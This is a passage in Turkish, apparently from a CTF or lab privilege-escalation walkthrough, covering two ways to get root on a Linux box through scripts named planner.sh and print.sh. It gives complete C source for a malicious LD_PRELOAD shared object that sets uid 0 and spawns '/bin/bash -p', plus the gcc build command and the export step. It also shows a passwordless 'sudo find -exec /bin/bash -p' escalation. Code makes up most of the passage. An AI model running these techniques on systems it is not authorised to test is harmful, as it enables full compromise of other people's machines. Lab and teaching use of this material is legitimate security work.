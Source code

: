 *   **`LD_PRELOAD` ile SUID Programlarını Sömürme:**
    Eğer `root` SUID bitine sahip bir program, paylaşılan kütüphaneleri dinamik olarak yüklüyorsa ve siz `LD_PRELOAD` ortam değişkenini ayarlayabiliyorsanız (genellikle SUID programlar için bu kısıtlıdır, ama bazı istisnalar veya yanlış yapılandırmalar olabilir), kendi derlediğiniz zararlı bir `.so` dosyasını programa yükletebilirsiniz.
    1.  Zararlı C kodu yaz (örn: `shell.c`):
        ```c
        #include <stdio.h>
        #include <stdlib.h>
        #include <sys/types.h>
        #include <unistd.h>

        void _init() {
            unsetenv("LD_PRELOAD");
            setuid(0);
            setgid(0);
            system("/bin/bash -p");
        }
        ```
    2.  Derle: `gcc -shared -o shell.so -fPIC shell.c`
    3.  Eğer `planner.sh` SUID'li bir programı çalıştırırken `LD_PRELOAD`'u etkileyebiliyorsanız:
        ```bash
        # print.sh içinde
        export LD_PRELOAD=/home/cihan/shell.so
        # Ardından planner.sh SUID'li programı çalıştırdığında shell.so yüklenecektir.
        ```
    Bu senaryo daha nadirdir ama güçlü bir tekniktir.

*   **Yanlış Yapılandırılmış `sudo` Hakları:**
    Bazen `planner.sh` doğrudan `print.sh`'i `root` olarak çalıştırmaz ama `cihan` kullanıcısına belirli komutları `sudo` ile şifresiz çalıştırma hakkı verilmiş olabilir.
    ```bash
    sudo -l # cihan kullanıcısının sudo haklarını gösterir
    # Çıktı örneği:
    # (root) NOPASSWD: /usr/bin/find
    ```
    Eğer `find` gibi komutlar `sudo` ile şifresiz çalıştırılabiliyorsa, GTFOBins'den `sudo` bölümüne bakarak bu komutlarla nasıl shell alınacağı bulunabilir.
    ```bash
    # print.sh içinde (eğer planner.sh bunu cihan olarak çalıştırıyorsa)
    sudo /usr/bin/find . -exec /bin/bash -p \; -quit
    ```
